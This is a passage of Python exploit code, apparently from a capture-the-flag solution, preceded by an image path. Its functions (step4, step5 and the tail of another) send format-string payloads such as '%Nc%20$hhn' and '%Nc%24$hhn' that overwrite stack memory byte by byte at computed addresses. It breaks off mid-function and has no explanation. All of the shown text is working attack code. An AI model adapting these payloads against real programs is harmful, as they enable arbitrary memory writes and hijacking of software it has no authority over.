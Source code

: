 ```python
    word1 = (ebp4 & 0xff) + 0x10
    payload = "(1%" + str(word1) + "c%20$hhn)"
    p.sendline(payload)

    word1 = (target & 0xff) + 2
    payload = "(1%" + str(word1) + "c%24$hhn)"
    p.sendline(payload)

    word1 = (ebp4 & 0xff) + 1 + 0x10
    payload = "(1%" + str(word1) + "c%20$hhn)"
    p.sendline(payload)

    word1 = (target >> 8) & 0xff
    payload = "(1%" + str(word1) + "c%24$hhn)"
    p.sendline(payload)

    word1 = (ebp4 & 0xff) + 2 + 0x10
    payload = "(1%" + str(word1) + "c%20$hhn)"
    p.sendline(payload)
    
    word1 = (target >> 16) & 0xff
    payload = "(1%" + str(word1) + "c%24$n)"
    p.sendline(payload)

def step4(p):
    word1 = (ebp4 & 0xff) + 0x18
    payload = "(1%" + str(word1) + "c%20$hhn)"
    p.sendline(payload)

    word1 = (target & 0xff) + 3
    payload = "(1%" + str(word1) + "c%24$hhn)"
    p.sendline(payload)

    word1 = (ebp4 & 0xff) + 1 + 0x18
    payload = "(1%" + str(word1) + "c%20$hhn)"
    p.sendline(payload)

    word1 = (target >> 8) & 0xff
    payload = "(1%" + str(word1) + "c%24$hhn)"
    p.sendline(payload)

    word1 = (ebp4 & 0xff) + 2 + 0x18
    payload = "(1%" + str(word1) + "c%20$hhn)"
    p.sendline(payload)
    
    word1 = (target >> 16) & 0xff
    payload = "(1%" + str(word1) + "c%24$n)"
    p.sendline(payload)

def step5(p):
    word1 = (ebp4 & 0xff) + 0x20
    payload = "(1%" + str(word1) + "c%20$hhn)"
    p.sendline(payload)

    word1 = (target & 0xff) + 4
    payload = "(1%" + str(word1) + "c%24$hhn)"
    p.sendline(payload)

    word1 = (ebp4 & 0xff) + 1 + 0x20
    payload = "(1%" + str(word1) + "c%20$hhn)"
    p.sendline(payload)

    word1 = (target >> 8) & 0xff
```